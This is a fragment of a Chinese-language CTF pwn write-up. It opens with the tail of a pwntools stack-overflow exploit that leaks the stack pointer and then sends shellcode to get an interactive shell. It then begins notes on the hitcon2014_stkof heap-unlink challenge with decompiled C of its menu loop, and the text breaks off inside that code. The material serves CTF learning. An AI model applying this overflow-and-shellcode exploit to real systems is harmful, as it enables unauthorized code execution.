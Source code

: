 ```python
#payload = 'a'*20  
payload = 'a'*20  + p32(0x08048087)#汇编中的addr 溢出后传入该地址去泄露esp
 
p.recvuntil("Let's start the CTF:")
p.send(payload)
esp_addr = u32(p.recv(4))
p.recv()
payload= 'a' * 20 + p32(esp_addr + 20) + sc
p.send(payload)
 
 
p.interactive()
```



# 7月18日

## 1.hitcon2014_stkof（unlink&&堆溢出）

main

菜单1-3常规无输出

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int v3; // eax
  int v5; // [rsp+Ch] [rbp-74h]
  char nptr[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  while ( fgets(nptr, 10, stdin) )
  {
    v3 = atoi(nptr);
    if ( v3 == 2 )
    {
      v5 = edit();
      goto LABEL_14;
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        v5 = dele();
        goto LABEL_14;
      }
      if ( v3 == 4 )
      {
        v5 = useless();
        goto LABEL_14;
      }
    }
    else if ( v3 == 1 )
    {
      v5 = add();
      goto LABEL_14;
    }
    v5 = -1;
LABEL_14:
    if ( v5 )
      puts("FAIL");
    else
```